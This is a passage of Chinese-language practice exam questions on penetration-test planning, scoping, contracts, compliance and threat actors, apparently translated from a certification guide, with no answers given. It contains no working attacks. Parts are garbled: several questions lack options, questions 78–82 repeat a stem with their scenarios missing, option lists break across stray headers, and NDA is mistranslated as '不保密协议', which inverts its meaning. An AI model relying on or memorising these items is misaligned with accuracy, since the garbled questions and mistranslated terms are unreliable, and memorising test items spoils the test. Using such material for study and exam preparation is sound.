2. 在高高峰期间暂停评估会使测试结果无效。
3. 测试人员与客户之间的通信应在整个测试过程中定期间隔地进行。
4. 无

## 34. 哪种类型的渗透测试最能模拟外部攻击？

## 35. 你需要为客户进行渗透测试，最好能评估目标组织对具有普通员工网络权限的恶意内部人员的脆弱性。你应该执行哪种类型的测试？

## 36. 一名渗透人员使用典型的员工电子邮件账户向目标内的经理和高管发送钓鱼邮件攻击。目标是看有多少人会上当并点击消息中的链接。在这种情况下正在进行哪种类型的渗透测试？

## 37. 你在渗透测试公司工作。一个客户打电话要求你进行一次深度探测其基础设施漏洞的详尽测试。你应该推荐哪种类型的测试？


### 38. 你正在为即将进行的渗透测试定义交战规则 (`ROE`)。这将是一次白盒评估。这是一次内部测试。不应涉及任何第三方。以下哪些资源可以被认为在评估范围之内？（选择两项。）

1. Active Directory 用户
2. 在组策略（Group Policy）中定义的密码策略
3. Microsoft Office 365 云应用程序
4. Google Docs
5. Microsoft Azure Web 服务器

### 39. 在渗透测试的规划和范围确定过程中，最重要的一步是什么？

1. 获取客户的书面授权
2. 编写交战规则 (`ROE`)
3. 选择测试方法
4. 定义范围内和范围外的系统、应用程序和服务提供商

### 40. 下列哪项是准确定义了渗透测试期间具体要执行哪些工作的正式文档？

1. 主服务协议 (`MSA`)
2. 不保密协议 (`NDA`)
3. 工作说明书 (`SOW`)
4. 采购订单 (`PO`)

### 41. 你在一家渗透测试公司工作。你与潜在客户一起吃晚餐。为了展示你们公司在渗透测试方面的技术专长，你列出了其他几个客户的名称，并详细描述了你们在每家公司评估发现的各种问题。当你这样做时违反了以下哪一项？

1. 工作说明书 (`SOW`)
2. 不保密协议 (`NDA`)
3. 主服务协议 (`MSA`)
4. 采购订单 (`PO`)

### 42. 你在一家渗透测试公司工作。一个潜在客户致电咨询你们的服务。在审查了你们公司能做什么之后，客户决定安排一次单黑盒测试。如果他们对结果满意，可能会考虑未来的测试。你最可能会先要求客户签署哪份文件？

1. 采购订单 (`PO`)
2. 不保密协议 (`NDA`)
3. 主服务协议 (`MSA`)
4. 工作说明书 (`SOW`)

### 43. 下列哪项合同规定双方均同意了将管理未来协议的大多数条款？

1. 主服务协议 (`MSA`)
2. 不保密协议 (`NDA`)
3. 工作说明书 (`SOW`)
4. 采购订单 (`PO`)

### 44. 你最近被一家安全公司聘用，负责对客户进行渗透测试。你的新雇主最可能要求你签署哪些协议作为雇佣条件？（选择两项。）

1. 主服务协议 (`MSA`)
2. 不保密协议 (`NDA`)
3. 工作说明书 (`SOW`)
4. 采购订单 (`PO`)
5. 竞业协议

### 45. 你们的渗透测试咨询公司一直在与美国联邦政府谈判合同，对其某些系统进行渗透测试。你会被要求签署哪些协议来代替工作说明书 (`SOW`)？（选择两项。）

1. 目标说明书 (`SOO`)
2. 性能工作说明书 (`PWS`)
3. 竞业协议
4. 采购订单 (`PO`)

### 46. 你正在定义即将进行的渗透测试的范围。你的客户办公室位于一个大型办公楼内，那里有许多其他租户。客户要求你将该组织的网络纳入测试。哪些参数应该被确定为在范围之内？（选择两项。）

1. 邻近租户拥有的面向 Web 的 Web 服务 IP 地址
2. 邻近租户拥有的边界安全设备的 IP 地址
3. 邻近租户使用的无线 SSID
4. 客户使用的无线 SSID
5. 客户内部网络使用的 IP 地址范围

### 47. 你最近为一个客户完成了渗透测试，现在需要写出最终的结论。你应该做什么？

1. 依靠对测试期间发生情况的记忆来编写报告。
2. 分析测试人员编写的日志文件。
3. 要求你的同事测试人员通过电子邮件给你发送他们在测试期间发现的前三个问题。
4. 要求你客户的 IT 人员通过电子邮件给你发送他们在测试期间注意到的前三个问题。

### 48. 一位客户聘请你测试其设施的物理安全性。他们允许你自由发挥，可以使用任何你想的方法尝试渗透其设施，只要不伤害任何人或损坏财产即可。在这种情况下，进行的是哪种类型的评估？

1. 基于目标的 (Goal-based)
2. 合并前的 (Pre-merger)
3. 基于合规性的 (Compliance-based)
4. 供应链 (Supply chain)

### 49. 你的一个客户接受客户的信用卡，并使用其内部网络和服务器处理支付。信用卡公司各规定，客户必须定期进行渗透测试，以确保其密码策略、数据隔离策略、访问控制和密钥管理机制能够充分保护消费者信用卡数据。在这种情况下，需要哪种类型的评估？

1. 基于目标的 (Goal-based)
2. 基于合规性的 (Compliance-based)
3. 供应链 (Supply chain)
4. 红队 (Red team)

### 50. 你的一个客户最近被一家大型跨国组织收购。在收购完成之前，你的客户必须接受广泛的渗透测试。在这种情况下，需要哪种类型的评估？

1. 基于客观目标的 (Objective-based)
2. 合并前的 (Pre-merger)
3. 基于合规性的 (Compliance-based)
4. 供应链 (Supply chain)

### 51. 一个组织的网络最近被黑客入侵。攻击者首先破解了该组织一个承包商使用的弱安全性。然后他们使用该承包商的身份验证据访问了该组织。哪种类型的渗透本可以防止这种情况？

1. 基于目标的 (Objective-based)
2. 合并前的 (Pre-merger)
3. 基于目标的 (Goal-based)
4. 供应链 (Supply chain)

### 52. 你在一个大型组织的安全团队工作。你的团队被派遣进行内部渗透测试，以验证你的组织的 IT 人员能否防御此类攻击。在这种情况下使用的是哪种评估？

1. 基于目标的 (Goal-based)
2. 基于合规性的 (Compliance-based)
3. 供应链 (Supply chain)
4. 红队 (Red team)

### 53. 一般而言，下列表中哪些层级的攻击者从威胁性最小到威胁性最大排序正确？

1. 脚本小子 (Script kiddie)、黑客分子 (hacktivist)、恶意内部人员 (malicious insider)、组织犯罪 (organized crime)、国家级 (nation-state)
2. 脚本小子 (Script kiddie)、恶意内部人员 (malicious insider)、黑客分子 (hacktivist)、组织犯罪 (organized crime)、国家级 (nation-state)
3. 黑客分子 (hacktivist)、脚本小子 (Script kiddie)、恶意内部人员 (malicious insider)、国家级 (nation-state)、组织犯罪 (organized crime)
4. 国家级 (nation-state)、组织犯罪 (organized crime)、恶意内部人员 (malicious insider)、黑客分子 (hacktivist)、脚本小子 (Script kiddie)

### 54. 你的一个客户是一个公共倡导团体。他们的一些政治立场在一些边缘活动分子中非常不受欢迎，他们担心某些黑客分子可能会试图劫持他们面向 Web 的网站。他们要求你使用典型的黑客分子所具备的技术能力和资金可以使用的工具和技术运行渗透测试。在这种情况下，发生了哪种过程？

1. 尽职调查 (Due diligence)
2. 风险接受 (Risk acceptance)
3. 威胁建模 (Threat modeling)
4. 范围蔓延 (Scope creep)

### 55. 你正在与新客户会面确定未来渗透测试的参数。在讨论过程中，你询问客户是否愿意接受渗透测试可能会导致其组织服务中断的事实。客户给予了肯定回答。在这种情况下发生了哪种过程？

1. 风险接受 (Risk acceptance)
2. 尽职调查 (Due diligence)
3. 威胁建模 (Threat modeling)
4. 风险转移 (Risk transfer)


### 56. 你正在为一个客户进行渗透测试。原始测试要求你测试该客户其中一个远程分支机构的安全性。客户今天打来电话，表示他们对第二个分支机构的安全就绪情况表示担忧。他们坚持要求你扩大渗透测试范围，包含这第二个站点。在这一场景中发生了哪种过程？

1. 尽职调查
2. 风险接受
3. 威胁建模
4. 范围蔓延 (Scope creep)

### 57. 客户要求你运行一次白盒渗透测试。她的组织在英国、沙特阿拉伯、巴基斯坦香港设有办公室。你将渗透测试工具包加载到笔记本电脑上，并旅行到每个办公室进行现场评估。在这种场景中，你哪哪里做错了？

1. 国际运输某些渗透测试软件和硬件可能是非法的。
2. 笔记本电脑的计算能力不足以有效运行渗透测试。
3. 通过从测试人员所在地远程运行评估，可以减少差旅费用。
4. 无。你所做的一切都是正确的。

### 58. 客户要求你运行一次白盒渗透测试。她的组织在美国、印度尼西亚、泰国和新加坡设有办公室。为了避免国际运输你的渗透测试软件，你将其上传到你的 Google Drive 账户。然后你旅行到每个站点，下载软件，并在笔记本电脑上本地运行。在这一场景中，你是否妥善处理了你的渗透测试软件？

1. 是，使用 `Google Drive` 国际访问软件可以让你免受起诉。
2. 否，大多数外国阻止了对 `Google Drive` 的访问。
3.否，向这些国家运输大多数渗透测试软件是合法的。
4. 不是，通过互联网国际运输大多数渗透测试软件是非法的。

## 59. 你被要求为一家位于纽约、洛杉矶和法戈（Fargo）办公室的组织进行渗透测试。在确定评估范围时，你需要检查哪些网络安全法律和法规？

1. 美国联邦网络安全法
2. 纽约州、加利福尼亚州和北达科他州的网络安全法
3. 每个物理位置当地的网络安全法
4. 国际刑警规章

### 60. 客户要求你运行一次白盒渗透测试。目标是评估其基于 Web 的应用程序的安全性。这些应用程序利用简单对象访问协议 (SOAP)。在范围确定过程中，你确定如果你能访问该组织这些应用程序的内部文档将非常有帮助。你应该向客户索要哪些内容？

1. Web 服务描述语言 (WSDL) 文档
2. 软件开发包 (SDK) 文档
3. Web 应用描述语言 (WADL) 文档
4. 应用程序接口 (API) 文档

### 61. 客户要求你运行一次白盒渗透测试。目标是评估其基于 Web 的应用程序的安全性。这些应用程序基于表述状态转移 (REST) 架构。在范围确定过程中，你确定如果你能访问该组织这些应用程序的内部文档将非常有帮助。你应该向客户索要哪些内容？

1. Web 服务描述语言 (WSDL) 文档
2. 软件开发包 (SDK) 文档
3. Web 应用描述语言 (WADL) 文档
4. 应用程序接口 (API) 文档

### 62. 客户要求你运行一次白盒渗透测试。目标是评估几个使用 C++ 编程语言内部编写的 PC 应用程序的安全性。员工每天使用这些应用程序来管理订单、库存和支付。在范围确定过程中，你确定如果你能访问该组织这些应用程序的内部软件开发文档将非常有帮助。你应该向客户索要哪些内容？（选择两个。）

1. 简单对象访问协议 (SOAP) 文档
2. 软件开发包 (SDK) 文档
3. Web 应用描述语言 (WADL) 文档
4. 应用程序接口 (API) 文档

### 63. 你正在为客户确定黑盒渗透测试的范围。目标是查看你是否可以访问存储在内部数据库服务器上的信息。在开始测试之前，客户应该提供哪些信息？

1. 架构图
2. Swagger 文档
3. `XSD`
4. 网络图

### 64. 你正在为客户确定白盒渗透测试的范围。目标是查看你是否可以访问存储在内部数据库服务器上的机密研究数据。你想针对一个内部开发的数据收集应用程序，客户的终端用户每天使用它在数据库中分类和存储信息。在开始测试之前，客户应该为你提供哪些信息？

1. 架构图
2. 示例请求
3. `XSD`
4. 以上所有

### 65. 你正在为客户确定白盒渗透测试的范围。目标是查看你是否可以访问存储在内部数据库服务器上的机密客户数据。你向客户索要架构图。客户应该为你提供哪些信息？（选择两个。）

1. Swagger 文档
2. 简单对象访问协议 (SOAP) 文档
3. 网络图
4. `XSD`
5. 设施平面图

### 66. 你正在为客户确定白盒渗透测试的范围。目标是查看你是否可以访问存储在内部数据库服务器上的机密研究数据。为了方便这一点，你要求客户提供终端用户用于生成示例请求的应用程序访问。请求中应该包含哪些特定的应用程序？（选择两个。）

1. 一个用于访问存储在数据库中的信息的内部开发桌面应用程序
2. Microsoft Word，终端用户每天编写存储在数据库中的文档
3. Microsoft Excel，终端用户每天编制存储在数据库中的电子表格
4. 一个使用数据库存储信息生成报告的内部开发 Web 应用程序
5. Adobe Photoshop，终端用户每天编辑存储在数据库中的图形文件

### 67. 你想为客户每天完成日常任务的内部开发 Web 应用程序生成示例应用程序请求。应该如何操作？

1. 向 Web 应用程序输入与终端用户相同的数据。
2. 向应用程序输入与终端用户输入相似的数据。
3. 向应用程序输入完全意外的数据。
4. 请求系统管理员为你生成示例。

### 68. 下列哪项是一种消息协议规范，定义了 Web 应用程序之间如何交换结构化信息，并由 `WSDL` 文件创建？

1. SOAP
2. `XSD`
3. WADL
4. Swagger

### 69. 下列哪项是一个旨在帮助开发者设计、构建、文档和测试表述状态转移 (REST) Web 服务的开源框架？

1. SOAP
2. `XSD`
3. `WSDL`
4. Swagger

### 70. 表述状态转移 (REST) Web 架构基于哪种协议？

1. FTP
2. HTTP


### 3. SMB
### 4. LDAP

### 71. 下列哪项是用于基于 XML 的接口定义语言，用于描述简单对象访问协议 (SOAP) 服务器提供的功能？
1. Web 服务描述语言 (WSDL)
2. Web 应用程序描述语言 (WADL)
3. 表征状态传输 (REST)
4. Swagger

### 72. 下列哪种架构用于对运行在 Web 应用服务器上的基于 HTTP 的 Web 服务提供基于 XML 的描述，并通常与表现状态传输 (REST) 应用程序配合？
1. 简单对象访问协议 (SOAP)
2. Web 应用程序描述语言 (WADL)
3. 表征状态传输 (REST)
4. Swagger

### 73. 下列哪项是万维网联盟 (W3C)规范，标识了如何在 XML 文档中定义元素？
1. SOAP
2. XSD
3. REST
4. WSDL

### 74. 你正在为客户规划一次白盒渗透测试范围。目标是查看你是否可以访问存储在内部数据库服务器上的机密研究数据。你想针对一个内部开发的数据收集应用程序，客户的终端用户每天使用该程序在数据库中分类和存储信息。在开始测试之前，客户应该向你提供哪些信息？
1. 配置文件
2. 数据流图
3. 软件开发包 (SDK) 文档
4. 以上所有

### 75. 你正在为客户规划一次白盒渗透测试范围。目标是查看你是否可以访问存储在内部数据库服务器上的敏感患者数据。在开始测试之前，客户应该做什么？（选择两个）
1. 在入侵防护系统 (IPS) 中将测试人员的用户账户列入黑。
2. 在入侵防护系统 (IPS) 中将测试人员的用户账户列入白。
3. 配置网络防火墙以故障开放（fail-open）模式工作。
4. 配置安全异常，允许渗透测试的系统绕过网络访问控制 (NAC)。
5. 配置网络防火墙以故障关闭（fail-close）模式工作。

### 76. 你正在为客户规划一次黑盒渗透测试范围。目标是查看你是否可以访问存储在内部数据库服务器上的敏感财务数据。在开始测试之前，客户应该做什么？
1. 为测试人员创建内部用户账户，其权限与普通员工相同。
2. 在 Web 应用程序防火墙 (WAF) 中将测试人员的用户账户列入白。
3. 配置证书锁定。
4. 配置安全异常，允许渗透测试的系统绕过网络访问控制 (NAC)。
5. 以上都不是。

### 77. 你正在为客户规划一次白盒渗透测试范围。客户实施了带有 IPSec 的网络访问控制 (NAC)，以防止不符合公司策略的设备连接到安全内部网络。由于你正在进行白盒测试，你的测试人员系统需要绕过 NAC 并获得直接访问内部安全网络的权限。客户应该做什么来实现这一点？
1. 配置证书锁定。
2. 将他们的计算机连接到交换机。
3. 为每项配置安全异常。
4. 临时禁用 NAC。

### 78. 下列哪项描述了风险响应策略？
1. 规避
2. 转移
3. 缓解
4. 接受

### 79. 下列哪项描述了风险响应策略？
1. 规避
2. 转移
3. 缓解
4. 接受

### 80. 下列哪项描述了风险响应策略？
1. 规避
2. 转移
3. 缓解
4. 接受

### 81. 下列哪项描述了风险响应策略？
1. 规避
2. 转移
3. 缓解
4. 接受

### 82. 下列哪项描述了风险响应策略？
1. 规避
2. 转移
3. 缓解
4. 接受

### 83. 你刚刚会见了一位新客户，他们要求你进行渗透测试。该客户管理一系列接受刷卡的零售店。他们需要你评估他们是否符合 PCI-DSS 标准。在范围范围规划过程中，你首先应该做什么？
1. 谈判渗透测试的费用。
2. 审查 PCI-DSS 要求。
3. 设定渗透测试的时间。
4. 冒装成客户并访问几家门店，对该组织进行预评估。

### 84. 你刚刚会见了一位新客户，他们要求你进行渗透测试。该客户管理一系列接受刷卡的零售店。他们需要你评估他们是否符合 PCI-DSS 标准。以下哪些测试需要包含在评估中？（选择两个）
1. 限制对持卡者数数据的物理访问。
2. 持卡者数据环境 (CDE) 与网络其他部分隔离。
3. 针对信用卡购买实施了退款政策。
4. 实施了拒付付款（chargeback）政策。
5. 要求收银员检查卡片上的签名与客户签名是否一致。

### 85. 你刚刚会见了一位新客户，他们要求你进行渗透测试。该客户管理一系列接受刷卡的零售店。他们需要你评估他们是否符合 PCI-DSS 标准。以下哪些测试需要包含在评估中？（选择两个）
1. 仅使用微软认证兼容 Windows 10 的硬件。
2. 加密持卡者数据的传输。
3. 确保所有员工仅使用一个用户账户来访问网络资源和持卡者数据。


### 4. 使用 `NAT` 路由器将持卡人数据环境 (`CDE`) 与网络的其他部分隔离开。

### 5. 从软件和硬件设备中删除所有默认密码。

### 86. 你刚刚会了一位新客户，他们请求你为他们进行渗透测试。该客户管理着一系列接受信用卡的零售店面。由于他们需要你评估他们是否符合 PCI-DSS 标准。在评估中需要包含以下哪些测试？

1. 在所有系统上安装并更新反防病毒软件。
2. 在环境中仅使用经过安全认证的 Cisco 路由器。
3. 在保护持卡人数据环境 (`CDE`) 的防火墙中关闭除 `139` 和 `445` 之外的所有端口。
4. 禁用对持卡人数据访问的所有监控。

### 87. 你刚刚会了一位新客户，他们请求你为他们进行渗透测试。该客户管理着一系列接受信用卡的零售店面。他们需要你评估他们是否符合 PCI-DSS 标准。在评估中需要包含以下哪些测试？

1. 必须建立密码策略。
2. 在保护持卡人数据环境 (`CDE`) 的防火墙中关闭除 `80` 和 `443` 之外的所有端口。
3. 网络上的所有主机必须有默认网关。
4. 网络上的所有主机必须有唯一的主机地址。

### 88. 你刚刚会了一位新客户，他们请求你为他们进行渗透测试。该客户管理着一系列接受信用卡的零售店面。他们需要你评估他们是否符合 PCI-DSS 标准。在评估中需要包含以下哪些测试？（选择两项）

1. 监控对持卡人数据的所有访问。
2. 确保使用 `WPA2` 来保护所有无线网络。
3. 确保使用 `TKIP` 来保护所有无线网络。
4. 根据知知性原则限制对持卡人数据的访问。

### 89. 哪部法律规定了金融机构如何处理客户的个人信息？

1. `GLBA`
2. `SARBOX`
3. `HIPPA`
4. `FIPS 140-2`

### 90. 哪部法律要求医疗保健组织必须符合某些安全标准？

1. `GLBA`
2. `SARBOX`
3. `HIPPA`
4. `FIPS 140-2`

### 91. 哪部法律规定了美国上市公司在安全策略、标准和控制方面的方面的标准？

1. `GLBA`
2. `SARBOX`
3. `HIPPA`
4. `FIPS 140-2`

### 92. 以下哪项内容提供了认证加密模块的标准？

1. `GLBA`
2. `SARBOX`
3. `HIPPA`
4. `FIPS 140-2`

### 93. 一位新客户来电要求安排一次灰盒渗透测试。你在电话中收集了关于客户的一些基本信息，制定了测试范围，并创建了测试计划。然后你聘佣了几位承包商帮助进行测试，并在预定日期开始评估。你对评估范围的界定是否正确？

1. 是，遵循了正确的范围界定程序。
2. 不，应该在创建范围之前定义计划。
3. 不，在界定评估范围之前，你应该花更多时间来了解目标读者。
4. 不，合同本应该有助于创建评估范围。

### 94. 你刚刚为一个客户完成了一次灰盒渗透测试。你已经写好了最终报告并交付给了客户。你还确保了客户授予你的用于进行测试的所有访问权限都已禁用。你写了一篇博客文章，识别了客户和评估结果，并将其发布在网上，以确保没有其他人犯与客户相同的安全错误。你是否正确地结束了渗透测试？

1. 是，渗透测试已正确结束。
2. 不，访问权限应该保留以供下一次渗透测试。
3. 不，应该在生成最终报告之前移除访问权限。
4. 不，发现的机密性没有得到维护。

### 95. 你正在为客户的即将到来的外部黑盒渗透测试确定范围。你正试图确定哪些内容将包含在测试中，哪些不包含。你应该向客户询问以下哪些问题？（选择两项）

1. 测试是否应该关注某个特定的已知漏洞？
2. 客户是否会授予物理设施的访问权限？
3. 测试是否应该寻找未知的漏洞？
4. 客户是否会提供管理员级别的账户以进行评估？

### 96. 你正在为客户的即将到来的外部黑盒渗透测试确定范围。你的一个渗透测试人员开发了一个非常激进的漏洞扫描器。事实上，在之前的测试中，她的扫描器导致客户面向的网站宕机了近 30 分钟。然而，通过这种方式，该客户了解到其 Web 应用程序软件中的几个漏洞。对于当前的客户，你应该做什么？

1. 指示你的渗透测试人员在即将进行的评估不使用她的漏洞扫描器。
2. 指示你的渗透测试人员在即将进行的评估中使用她的漏洞扫描器。
3. 与新客户进行影响分析并确定他们的容忍度。
4. 解雇该渗透测试人员。

### 97. 在计划即将进行的渗透测试时，你的客户要求在范围中包含对最终状态的描述。应该包含哪些信息？（选择两项）

1. 测试资金的使用明细。
2. 提供给客户的报告类型描述。
3. 使使系统合规所需的预计时间表。
4. 执行评估的所有渗透测试人员列表。

### 98. 你正在为即将到来的渗透测试确定范围。你需要识别与测试相关的技术限制。文档的这部分应该包含什么？

1. 你的测试人员没有资格使用的渗透测试工具列表。
2. 禁止测试的系统列表。
3. 客户 IT 员工未认证的技术列表。
4. 客户组织使用的未认证硬件列表。

### 99. 你正处于与新客户进行灰盒渗透测试的初始阶段。为了更好地定义项目范围，你应该问哪个问题？

1. 以前谁为客户进行过渗透测试？
2. 所有内部技术人员的姓名和电子邮件地址是什么？
3. 测试应该在现场进行还是从远程进行？
4. 是否有一个供渗透测试人员使用的靠窗的隔间？

### 100. 你正在为黑盒渗透测试确定范围。渗透测试人员物理位置应该在哪里？

1. 在组织的 IT 部门内部。
2. 任何外部位置。
3. 在竞争的设施内。
4. 在组织内部任何地方。

### 101. 你是一家中型公司的 CIO。你正在制定一个实施定期渗透测试的计划，并考虑使用由你自己的员工组成的内部渗透测试团队。使用内部团队的优点是哪些？（选择两项）

1. 他们对组织有背景知识。
2. 他们比外部承包商更少偏见。
3. 他们具有执行彻底测试所需的独立性。


4. 他们具有为许多组织执行渗透测试的丰富经验。
5. 它通常比使用外部外包商更便宜。

102. 你是一家中型企业的首席信息官（CIO）。你正在制定一项实施定期渗透测试的计划，并正在考虑使用外部渗透测试承包商。以下哪些是使用外部团队的优点？（选择两项）
1. 他们对组织有背景知识。
2. 他们比内部团队偏见更少。
3. 他们具有进行彻底测试所需的独立性。
4. 他们非常熟悉组织内部的安全控制措施。
5. 它通常比使用内部团队更便宜。

103. 你是一家中型企业的首席信息官（CIO）。你正在制定一项实施定期渗透测试的计划，并正在考虑使用由自己的员工组成的内部渗透测试团队。以下哪些是使用内部团队的缺点？（选择两项）
1. 维护内部团队非常昂贵。
2. 如果他们也为你的竞争对手进行测试，可能会存在潜在的利益冲突。
3. 他们可能认为发现漏洞会影响他们的形象。
4. 他们可能缺乏客观性。

104. 你是一家中型企业的首席信息官（CIO）。你正在制定一项实施定期渗透测试的计划，并正在考虑使用外部渗透测试承包商。以下哪些是使用外部团队的缺点？（选择两项）
1. 如果他们也为你的竞争对手进行测试，可能会存在潜在的利益冲突。
2. 他们缺乏内部团队的技术人才。
3. 他们通常比内部团队更贵。
4. 他们可能会将个人偏见带入测试。

105. 在渗透测试的背景下，以下哪项最符合 `the hacker’s mindset`（黑客思维）的定义？
1. 渗透测试人员必须采用防御思维，试图防止所有威胁。
2. 渗透测试人员必须像安全专业人员一样思考，评估正在使用的每个安全控制措施的强度和价值。
3. 渗透测试人员必须像现实世界可能攻击系统的对手一样思考。
4. 渗透测试人员必须像军事领导者一样思考，组织由许多攻击者在多个正面发起开放攻击。

106. 在渗透测试的背景下，以下哪项最符合 `confidentiality`（机密性）的定义？
1. 防止未经授权的访问信息
2. 防止对信息的未经授权修改
3. 确保信息对于授权的访问保持可用
4. 防止对信息的合法访问

107. 在渗透测试的背景下，以下哪项最符合 `integrity`（完整性）的定义？
1. 防止未经授权的访问信息
2. 防止对信息的未经授权修改
3. 确保信息对于授权的访问保持可用
4. 获取未经授权的访问信息

108. 在渗透测试的背景下，以下哪项最符合 `availability`（可用性）的定义？
1. 防止未经授权的访问信息
2. 防止对信息的未经授权修改
3. 确保信息对于授权的访问保持可用
4. 对信息进行未经授权的更改

109. 在渗透测试的背景下，以下哪项最符合 `disclosure`（泄露/披露）的定义？
1. 获取未经授权的访问信息
2. 对信息信息进行未经授权的更改
3. 防止对信息的合法使用
4. 公开承认发生了安全漏洞且信息已被泄露

110. 在渗透测试的背景下，以下哪项最符合 `alteration`（篡改）的定义？
1. 获取未经授权的访问信息
2. 对信息进行未经授权的更改
3. 防止对信息的合法使用
4. 利用一次成功的攻破来攻破网络中另一个原本无法访问的系统

111. 在渗透测试的背景下，以下哪项最符合 `denial`（拒绝服务）的定义？
1. 获取未经授权的访问信息
2. 对信息进行未经授权的更改
3. 防止对信息的合法使用
4. 未能公开承认发生了安全漏洞且信息已被泄露

112. Natasha 正在运行灰盒渗透测试，并在 Web 应用程序中发现了一个漏洞，允许她直接访问存储在后端数据库服务器上的信息。她完成了哪种渗透目标？
1. Disclosure（泄露）
2. Integrity（完整性）
3. Alteration（篡改）
4. Denial（拒绝服务）

113. Kimberly 正在运行灰盒渗透测试，并在一个在线公司目录应用程序中发现了一个漏洞，该漏洞允许她在员工查找字段中提交 `LDAP` 命令。她利用该漏洞添加了一个她可以作为后门的新用户账户。她完成了哪种渗透目标？
1. Disclosure（泄露）
2. Availability（可用性）
3. Alteration（篡改）
4. Denial（拒绝服务）

114. Jessica 正在运行灰盒渗透测试。她使用 `Low Orbit Ion Cannon` 实用向组织内部的一个文件服务器发送大量的 `TCP` 数据包。结果是文件服务器过载，无法再响应合法的网络请求。她完成了哪种渗透目标？
1. Disclosure（泄露）
2. Confidentiality（机密性）
3. Alteration（篡改）
4. Denial（拒绝服务）

115. Brittany 正在运行灰盒渗透测试。她在一个 HR Web 应用程序中发现了一个漏洞。通过 `SQL injection` 攻击，她可以增加或减少员工当前薪资期间工卡的小时。她完成了哪种渗透目标？
1. Disclosure（泄露）
2. Availability（可用性）
3. Alteration（篡改）
4. Confidentiality（机密性）

116. 一家在线零售商直接处理信用卡订单的支付处理。因此，信用卡公司要求该组织符合 PCI-DSS 标准。该组织何时必须进行渗透测试？（选择两项）
1. 每月一次
2. 每六个月一次
3. 一年一次
4. 每当网络基础设施发生重大更改时
5. 在销售旺季（如节假日）之前立即

117. Joshua 在一家渗透测试咨询公司工作。在最近的渗透测试中，他针对客户面向公众的电子商务网站运行了一个攻击工具。该网站离机超过了一个小时。客户现在威胁要起诉 Joshua 的雇主。在渗透测试过程的哪个阶段，咨询公司和客户应该就测试相关的风险达成一致？
1. 规划和范围
2. 信息收集和漏洞识别
3. 攻击和利用
4. 报告和沟通

118. 在渗透测试的规划和范围阶段，以下哪种文件定义了测试的具体技术、工具、活动、交付物和进度？
1. MSA（主服务协议）
2. NDA（保密协议）
3. Memorandum of understanding（合作备忘录）
4. SOW（工作说明书）

119. 以下哪种类型的评估将允许渗透测试人员访问网络防火墙的配置，而不需要测试人员实际破解该防火墙？
1. Gray box（灰盒）
2. Red team（红队）
3. Black box（黑盒）
4. White box（白盒）


### 120. 你是一家初创公司的首席信息官（CIO）。你选择了一家渗透测试公司，希望由他们运行公司的第一次渗透测试。然而，公司创始人在得知你的计划后非常不悦。创始人担心公司产品的专有信息可能会通过承包商泄露给竞争对手。你应该要求承包商签署哪份文件来防止这种情况发生？

1. `NDA`（保密协议）
2. `Noncompete agreement`（竞业协议）
3. `MSA`（主服务协议）
4. `SOW`（工作说明书）

### 121. 根据威胁者分级列表，以下哪个威胁者可能是最危险？

1. `Hacktivist`（黑客行动主义）
2. `Malicious insider`（恶意内部人员）
3. `Script kiddie`（脚本）
4. `Nation-state actor`（国家级攻击者）

### 122. 根据威胁者分级列表，以下哪个威胁者可能是最危险？

1. `Hacktivist`（黑客行动主义）
2. `Malicious insider`（恶意内部人员）
3. `Organized crime actor`（有组织犯罪分子）
4. `APT`（高级持续性威胁）

### 123. 你正在为一个客户进行渗透测试。你正在使用在个人笔记本电脑上的渗透测试工具包对各种网络基础设施设备（包括服务器、路由器和交换机）进行扫描。突然，网络中断了。你无法访问客户网络上的任何设备。以下哪种情况可以解释发生了什么？

1. `你的扫描导致边界路由器崩溃。`
2. `你的扫描导致网络骨干上的一个交换机崩溃。`
3. `你笔记本的 IP 地址被加入了白名单。`
4. `你笔记本的 IP 地址被加入了黑名单。`

### 124. 你在一家渗透测试咨询公司工作，正在与潜在客户进行谈判。客户建议你的组织与他们的组织签署一份 `MSA`。你应该怎么办？

1. `庆祝吧！这意味着客户希望聘请你们公司多次合作。`
2. `告知你的雇主，交易可能无法达成。`
3. `警告你的雇主，潜在客户可能会尝试起诉你们公司。`
4. `终止与客户的谈判。`

### 125. 你正在为一个客户进行白盒渗透测试。你到达客户现场，并将笔记本电脑插入一个空闲的网络插座。然而，你的笔记本电脑在客户网络上只能获得有限的连接。你运行了 `ipconfig` 命令，发现笔记本电脑已获得了一个 IP 地址，但你只能在网络上看到另一个主机。为什么会发生这种情况？

1. `你的笔记本被客户的入侵防护系统 (IPS) 检测到并被加入了黑名单。`
2. `客户的网络访问控制 (NAC) 系统将你的笔记本隔离在修复网络上。`
3. `你的笔记本被客户的入侵检测系统 (IDS) 检测到并被加入了黑名单。`
4. `客户在他们的网络交换机上启用了 MAC 地址过滤。`

### 126. 一个测试团队正在对一个机构进行评估。该团队并不关注于评估广泛的漏洞。相反，他们正在进行一项受非常狭窄的目标指导的协调攻击。规则（Rules of engagement）规定，他们可以使用物理、电子和社交工程漏洞来实现目标。在这种情况下，发生的是哪种渗透测试？

1. `Compliance-based penetration test`（基于合规性的渗透测试）
2. `White box penetration test`（白盒渗透测试）
3. `Gray box penetration test`（灰盒渗透测试）
4. `Black box penetration test`（黑盒渗透测试）
5. `Red team penetration test`（红队渗透测试）

### 127. 你正在为客户进行黑盒渗透测试。客户租用了一栋与其他租户共享的大楼内的办公空间。你坐在客户办公室正前方停车场的车里，扫描从建筑中发出的无线网络信号。你识别出了五个不同的 `SSIDs`。你不知道哪一个属于你的客户，因此你决定秘密连接到所有网络，然后运行一些简单的扫描以隔离出哪一个是客户的无线网络。在这种情况下，你做错了哪一点？

1. `坐在客户办公室正前的车里可能会引起怀疑。`
2. `在这种情况下，灰盒测试会更有效。`
3. `从建筑外发出的无线信号通常太弱，没有用处。`
4. `你正在攻击范围之外的无线网络。`

### 128. 以下哪些威胁者通常具有开发自己的广泛漏洞利用所需的资金资源和技术专长？（选择）

1. `Organized crime`（有组织犯罪）
2. `Malicious insider`（恶意内部人员）
3. `Script kiddie`（脚本）
4. `Nation-state actor`（国家级攻击者）
5. `Hacktivist`（黑客行动主义）

### 129. 以下哪个威胁者利用组织合法授予给他们的信任来破坏该组织的信息或系统？

1. `Organized crime`（有组织犯罪）
2. `Malicious insider`（恶意内部人员）
3. `Script kiddie`（脚本）
4. `Nation-state actor`（国家级攻击者）
5. `Hacktivist`（黑客行动主义）

### 130. 以下哪个威胁者通常缺乏开发自己漏洞利用的技术专长，必须依赖从互联网下载的预写代码？

1. `Organized crime`（有组织犯罪）
2. `Hacktivist`（黑客行动主义）
3. `Script kiddie`（脚本）
4. `Nation-state actor`（国家级攻击者）

